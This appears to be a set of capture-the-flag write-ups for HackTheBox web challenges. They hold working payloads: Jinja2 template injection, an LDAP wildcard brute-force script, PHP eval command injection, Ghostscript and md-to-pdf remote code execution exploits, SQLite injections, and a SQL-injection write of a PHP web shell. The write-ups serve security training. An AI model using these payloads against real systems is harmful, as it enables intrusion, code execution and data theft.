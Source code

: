 # WEB

## Templeted `Flask/Jinja2 Template Injection`
Flask/Jinja2 Template Injection
Payload:
```
http://<ip_address>/{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt')).read()}}
```

## Phonebook `LDAP Injection`
Bypass login using *:* credentials.

Get reese's password -> flag:
Python script: 
```python3
import requests, string
alphabet = string.ascii_letters + string.digits + "_@{}-/()!\"$%=^[]:;"

proxies = {
    'http': 'http://127.0.0.1:8080'
}

flag = "HTB{"
for i in range(50):
    print("[i] Looking for number " + str(i))
    # print(alphabet)
    for char in alphabet:
        pwd = flag + char + '*'
        r = requests.post("http://<ip_address>/login", data={"username":"reese", "password":pwd}, proxies=proxies)
        if ("'Content-Length': '2586'" in str(r.headers)):
            flag += char
            print("[+] Flag: " + flag)
            break
```



## LoveTok `Code Injection [PHP eval()]`
```
# Get flag file name
http://<ip_address>/?format=${system($_GET[1])}&1=ls

# Get flag
http://<ip_address>/?format=${system($_GET[1])}&1=cat+flageXXXX
```


## Toxic `Insecure Deserialization` & `Log Poisoning Attack`
### `TODO`



## petpetrcb `CVE-2018-16509`
Ghostscript === 9.23 RCE
Payload:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%touch /tmp/got_rce) currentdevice putdeviceprops
```


Payload for this challenge:
```
%!PS-Adobe-3.0 EPSF-3.0
%%BoundingBox: -0 -0 100 100

userdict /setpagedevice undef
save
legal
{ null restore } stopped { pop } if
{ legal } stopped { pop } if
restore
mark /OutputFile (%pipe%cat flag >> /app/application/static/petpets/flag.txt) currentdevice putdeviceprops
```

## Under Construction `JWT Algorithm Confusion` & `SQL Injection`
JWT Algorithm Confusion -> https://portswigger.net/web-security/jwt/algorithm-confusion

Next SQL Injection (SQLite3)
```sql
# Get Tables
user_in_database' union select name,NULL from sqlite_master where type='table' and name not like 'sqlite_%';-- 

# Get Columns
user_in_database' union select sql,NULL from sqlite_master where tbl_name = 'users' and type = 'table';--

# Get Flag
user_in_database' and 1=2 UNION SELECT *,NULL from flag_storage;--
```


## Blinker Fluids `CVE-2021-23639`
md-to-pdf < 5.0.0 RCE
Payload:
```
const { mdToPdf } = require('md-to-pdf'); var payload = '---js\n((require("child_process")).execSync("id > /tmp/RCE.txt"))\n---RCE';
```
Payload for this challenge:
```
# In request:
"---js\n((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))\n---RCE;"

# In PDF editor on site:
---js
  ((require(\"child_process\")).execSync(\"cd .. && cat flag.txt > /app/static/instances/RCE.txt\"))
---RCE;

```

## Intergalactic POST `SQL Injection with RCE [SQLite3]`
If given arguments arent't properly validated:
```php
$this->db->exec("INSERT INTO subscribers (ip_address, email) VALUES('$ip_address', '$email')");
```
We can add `X-Forwarded-For` header and it's value will be passed to `$ip_address`
```sql
X-Forwarded-For: a','a');ATTACH DATABASE '/www/lol.php' AS lol;CREATE TABLE lol.pwn (dataz text);INSERT INTO lol.pwn (dataz) VALUES ("<?php system($_GET['cmd']); ?>");--
```
Next arguments can be given through URL:
```url
http://104.248.173.13:32130/lol10.php?cmd=cat%20../flag_d055c3346bc2c02.txt
```
